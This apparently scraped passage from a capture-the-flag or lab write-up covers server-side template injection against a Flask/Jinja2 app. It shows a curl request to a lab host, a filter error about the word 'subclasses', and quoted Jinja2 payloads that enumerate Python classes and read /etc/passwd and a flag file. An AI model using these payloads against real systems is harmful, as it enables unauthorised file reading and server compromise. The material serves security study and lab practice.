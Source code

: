 `curl -X POST http://192.168.56.147:5000/ --data-binary @html_python_request.txt --header "Content-Type: multipart/form-data; boundary=---------------------------156927482725802177751080524724"`:
```html
[...]

    <h3>Error: File: /home/cosette/zeug/venv/lib/python3.11/site-packages/flask/app.py - Template contains restricted words: subclasses</h3> ←

[...]
```

<div>
	<img src="./assets/logo_github.png" alt="GitHub Logo" width="16" height="auto">
	<span style="color: white; font-size: 110%;"><strong>GitHub</strong></span>
</div>

[Payloads All The Things - Server Side Template Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md)

[**#Jinja2 - Dump all used classes**]

```python
{{ [].class.base.subclasses() }}
{{''.class.mro()[1].subclasses()}}
{{ ''.__class__.__mro__[2].__subclasses__() }}
```

Access `__globals__` and `__builtins__`:
```python
{{ self.__init__.__globals__.__builtins__ }}
```

[**#Jinja2 - Read remote file**]

```python
# ''.__class__.__mro__[2].__subclasses__()[40] = File class
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
{{ config.items()[4][1].__class__.__mro__[2].__subclasses__()[40]("/tmp/flag").read() }}
# https://github.com/pallets/flask/blob/master/src/flask/helpers.py#L398
{{ get_flashed_messages.__globals__.__builtins__.open("/etc/passwd").read() }}
```
